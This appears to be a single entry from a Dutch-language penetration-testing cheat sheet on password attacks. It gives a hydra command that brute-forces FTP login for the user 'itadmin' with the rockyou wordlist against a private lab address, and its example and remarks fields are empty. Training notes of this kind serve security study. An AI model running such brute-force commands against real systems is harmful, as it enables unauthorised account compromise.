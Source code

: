 # 16.Password Attacks — Entry 3

## Categorie

FTP Attack

## Commando

```
sudo hydra -l itadmin -P /usr/share/wordlists/rockyou.txt -s 21 ftp://192.168.175.201
```

## Omschrijving

Brute-force attack met Username

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

